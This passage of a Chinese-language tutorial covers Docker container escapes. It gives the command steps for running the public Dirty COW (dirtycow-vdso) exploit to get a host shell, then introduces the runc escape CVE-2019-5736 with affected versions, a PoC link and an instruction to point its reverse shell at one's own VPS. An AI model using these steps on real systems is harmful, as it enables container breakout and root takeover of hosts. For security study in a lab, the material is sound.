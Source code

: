 1、运行 docker 镜像

```
docker run --name=test -p 1234:1234 -itd dirtycow /bin/bash   //使用本地1234端口连接docker的1234端口运行dirtycow镜像，并将其临时命名为test
```

2、进入镜像内部操作

```
docker exec -it test /bin/bash 
```

![](images/format,png.jpeg)

3、运行漏洞 exp  
下载地址：[https://github.com/scumjr/dirtycow-vdso](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2Fscumjr%2Fdirtycow-vdso)

```
cd /dirtycow-vdso/    //进入dirtycow-vdso文件夹
make       //使用make命令编译.c文件
./0xdeadbeef     //运行0xdeadbeef 文件
```

显示 successfully 表示成功。 

![](images/format,png-163410875271211)

成功获取到宿主机的 shell。

![](images/format,png-163410875271212)

容器服务缺陷
======

CVE-2019-5736 漏洞逃逸
------------------

1、漏洞原理：  
Docker、containerd 或者其他基于 runc 的容器在运行时存在安全漏洞，攻击者可以通过特定的容器镜像或者 exec 操作获取到宿主机 runc 执行时的文件句柄并修改掉 runc 的二进制文件，从而获取到宿主机的 root 执行权限。  
2、影响版本：  
平台或产品 受影响版本  
Docker Version < 18.09.2  
runC Version <= 1.0-rc6  
3、漏洞复现  
首先编译 go 脚本，生成攻击 payload  
[https://github.com/Frichetten/CVE-2019-5736-PoC](https://links.jianshu.com/go?to=https%3A%2F%2Fgithub.com%2FFrichetten%2FCVE-2019-5736-PoC)  
修改脚本中的反弹地址为自己 vps 地址。

